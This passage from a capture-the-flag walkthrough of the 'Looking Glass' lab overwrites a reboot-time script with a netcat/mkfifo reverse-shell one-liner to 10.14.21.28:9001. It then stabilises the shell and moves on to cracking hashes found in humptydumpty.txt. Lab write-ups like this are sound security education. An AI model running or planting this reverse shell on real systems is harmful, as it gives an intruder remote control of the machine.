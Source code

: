 ```
cp twasBrillig.sh twasBrillig.sh.bak
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.21.28 9001 >/tmp/f" > twasBrillig.sh
```

Now, let's reboot while we have our listener ready:

![](gitbook/cybersecurity/images/Pasted%20image%2020250610232024.png)

Once it reboots, we get our shell, let's stabilize it:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250610232117.png)

We are `tweedledum`, let's check our home directory:

```
tweedledum@looking-glass:~$ ls -la
total 28
drwx------ 2 tweedledum tweedledum 4096 Jul  3  2020 .
drwxr-xr-x 8 root       root       4096 Jul  3  2020 ..
lrwxrwxrwx 1 root       root          9 Jul  3  2020 .bash_history -> /dev/null
-rw-r--r-- 1 tweedledum tweedledum  220 Jun 30  2020 .bash_logout
-rw-r--r-- 1 tweedledum tweedledum 3771 Jun 30  2020 .bashrc
-rw-r--r-- 1 tweedledum tweedledum  807 Jun 30  2020 .profile
-rw-r--r-- 1 root       root        520 Jul  3  2020 humptydumpty.txt
-rw-r--r-- 1 root       root        296 Jul  3  2020 poem.txt
```

We got `humptydumpty.txt`:

```
tweedledum@looking-glass:~$ cat humptydumpty.txt
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
7468652070617373776f7264206973207a797877767574737271706f6e6d6c6b
```

If we analyze them, they seem like a series of hashes, let's use crackstation to check:

![](gitbook/cybersecurity/images/Pasted%20image%2020250610232252.png)
